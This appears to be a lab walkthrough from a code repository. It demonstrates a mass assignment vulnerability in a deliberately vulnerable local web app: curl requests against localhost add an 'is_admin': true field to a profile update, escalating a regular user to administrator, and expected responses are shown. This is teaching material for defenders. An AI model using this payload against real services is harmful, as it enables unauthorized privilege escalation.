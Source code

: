 ## Prerequisites
First, ensure the vulnerable mass assignment server is running with the following command:

```Bash

uvicorn vulnerable:app --reload
```

## Exploitation Steps
The goal is for a regular user, Alice, to elevate her own privileges to become an administrator by sending a malicious payload to the profile update endpoint.

1. Verify Initial (Non-Admin) Status
Before the attack, we confirm that Alice does not have administrative privileges by trying to access the admin dashboard.

```Bash

curl "http://127.0.0.1:8000/admin/dashboard"
```

Expected Response (Access Denied):

```JSON

{"detail":"Forbidden: Admins only!"}
```
2. Perform the Exploit
Next, Alice sends a PUT request to the /users/me endpoint. The request body includes the fields required for validation (id, username) but also adds the is_admin field with a value of true.

```Bash

curl -X PUT "http://127.0.0.1:8000/users/me" \
     -H "Content-Type: application/json" \
     -d '{"id": 1, "username": "alice", "email": "new-email@example.com", "is_admin": true}'
```

The server accepts the request because it passes validation, and then blindly "assigns" all provided values to the user object in the database, including the malicious is_admin property.

Expected Response (Success):

```JSON

{
  "message": "Profile updated!",
  "user": {
    "id": 1,
    "username": "alice",
    "email": "new-email@example.com",
    "bio": "Just a regular user.",
    "is_admin": true
  }
}
```

3. Confirm Admin Privileges
To verify the privilege escalation, Alice tries to access the admin dashboard again.

```Bash

curl "http://127.0.0.1:8000/admin/dashboard"
```
Successful Exploit Response (Access Granted):

```JSON

{"message":"Welcome to the secret admin dashboard!"}
```

This confirms that Alice successfully exploited the Mass Assignment vulnerability to gain administrative access.